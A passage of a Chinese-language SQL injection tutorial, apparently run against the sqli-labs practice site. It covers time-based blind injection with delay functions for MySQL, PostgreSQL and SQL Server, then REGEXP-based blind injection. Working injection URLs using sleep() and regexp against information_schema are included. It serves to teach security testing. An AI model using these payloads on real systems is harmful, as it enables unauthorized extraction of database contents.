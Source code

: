 

<table border="1" cellpadding="1" cellspacing="1" style="width:500px;"><tbody><tr><td>MySQL</td><td><p>benchmark(100000000,md5(1))</p><p>sleep(3)</p></td></tr><tr><td>PostgreSQL</td><td><p>PG_sleep(5)</p><p>Generate_series(1,1000000)</p></td></tr><tr><td>SQLServer</td><td>waitfor delay&nbsp; '0:0:5'</td></tr></tbody></table>



**利用前提：**页面上没有显示位，也没有输出 SQL 语句执行错误信息。正确的 SQL 语句和错误的 SQL 语句返回页面都一样，但是加入 sleep(5)条件之后，页面的返回速度明显慢了 5 秒。  

**优点：**不需要显示位，不需要出错信息。  

**缺点：**速度慢，耗费大量时间



sleep 函数判断页面响应时间               if(判断条件，为true时执行，为false时执行)



我们可以构造下面的语句，判断条件是否成立。然后不断变换函数直到获取到我们想要的信息



```
//判断是否存在延时注入      
http://127.0.0.1/sqli/Less-1/?id=1' and sleep(5)#       
// 判断数据库的第一个字符的ascii值是否大于100，如果大于100，页面立即响应，如果不大于，页面延时5秒响应      
http://127.0.0.1/sqli/Less-1/?id=1' and if(ascii(substring(database(),1,1))<100,1,sleep(5)) #
```




六：REGEXP正则匹配

------------



正则表达式，又称规则表达式（Regular Expression，在代码中常简写为[regex](https://so.csdn.net/so/search?q=regex&spm=1001.2101.3001.7020)、regexp或RE），计算机科学的一个概念。正则表达式通常被用来检索、替换那些符合某个模式(规则)的文本



![](https://img-blog.csdn.net/20180823231241895?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



查找name字段中含有a或者b的所有数据：        select name from admin where name regexp ' a|b ';  

查找name字段中含有ab，且ab前有字符的所有数据(.匹配任意字符)： select name from admin where name regexp ' .ab ';  

查找name字段中含有at或bt或ct的所有数据：   select name from admin where name regexp ' \[abc\]t ';  

查找name字段中以a-z开头的所有数据：          select name from admin where name regexp ' ^\[a-z\] ';



已知数据库名为 security，判断第一个表的表名是否以 a-z 中的字符开头，^\[a-z\]  -->  ^a ; 判断出了第一个表的第一个字符，接着判断第一个表的第二个字符 ^a\[a-z\] -->  ^ad ;  就这样，一步一步判断第一个表的表名  ^admin$ 。然后 limit 1，1 判断第二个表



```
// 判断security数据库下的第一个表的是否以a-z的字母开头      
http://127.0.0.1/sqli/Less-1/?id=1' and  1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^[a-z]' limit 0,1) #
```
